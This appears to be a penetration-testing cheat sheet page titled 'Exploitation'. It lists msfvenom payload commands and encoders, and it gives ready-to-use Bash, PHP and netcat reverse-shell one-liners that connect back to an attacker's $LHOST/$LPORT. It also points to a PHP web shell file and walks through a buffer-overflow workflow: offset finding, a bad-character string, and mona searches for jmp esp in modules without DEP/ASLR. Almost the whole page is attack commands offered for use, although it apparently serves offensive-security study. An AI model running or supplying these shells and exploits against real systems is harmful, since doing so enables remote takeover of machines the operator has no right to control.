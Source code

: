 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Finding vulnerabilities and turning them into usable exploits.._

## MSFVenom Reverse Shell Payloads
### Generate Payloads

```bash
msfvenom -p $PAYLOAD LHOST=$LHOST LPORT=$LPORT [-e $ENCODER [-i $ROUNDS]] [-b $BADCHARS] [-f $FORMAT] [-o $FILENMAE]
```

### Payloads
| Windows       |                                   |
|:--------- 	|   -----------------------------:	|
|   Staged  	| ``windows/shell/reverse_tcp`` 	|
| Stageless 	| ``windows/shell_reverse_tcp`` 	|

| Linux         |                                   |
|:--------- 	|   -----------------------------:	|
|   32bit   	| ``linux/x86/shell_reverse_tcp`` 	|
| 64bit      	| ``linux/x64/shell_reverse_tcp`` 	|

#### Encoders
``x86/shikata_ga_nai``

## Bash Reverse Shells
```bash
0<&196;exec 196<>/dev/tcp/$LHOST/$LPORT; sh <&196 >&196 2>&196
```
```bash
bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
```

## PHP Reverse Shells
### One Liner
```php
<?php $sock = fsockopen($LHOST,$LPORT); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes) ?>
```
### File Upload
Kali File Location: `/usr/share/webshells/php/php-reverse-shell.php` <sup><sub>[[archive](files/php-reverse-shell.php)]

## Netcat Reverse Shells
### Unix
```bash
nc -e /bin/sh $LHOST $LPORT
```

### OpenBSD
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $LHOST $PORT >/tmp/f
```

## Buffer Overflows

[Buffer Overflow POC](./assets/bof-poc.py)

[Stack Frame Cheatsheet](./assets/stack-frame-cheatsheet.png)

### 1. Finding the Return Address

Create a unique pattern:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [no of bytes]
```

```bash
pwn cylic [no of bytes]
```

Crash the program, get the EIP at the that crashed it:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value of ra]
```

```bash
pwn cyclic -l [value of ra]
```

### 2. Bad Characters

A Character is defined as a 'bad' character if, when looking in the debugger's memory map, it is not found in buffer or it truncates the payload

```bash
badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

### 3. Finding Useful Instructions

**Finding opcodes from Assembly:**

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

i.e. jmp esp == “\xff\xe4”

**Finding occurances of opcodes in memory:**

```bash
!mona modules
```

- Find module with no DEP and ASLR (all except last column false)

```bash
!mona find -s "xff\xe4" -m target.dll
```

```bash
!mona find -s "\xff\xe4"
``` 
- use if nothing shows up, very slow and may crash idb

### Miscellaneous Tips
- Restart the debugger with each test
- Use nano
- Bad characters in instructions and addresses
- Set breakpoints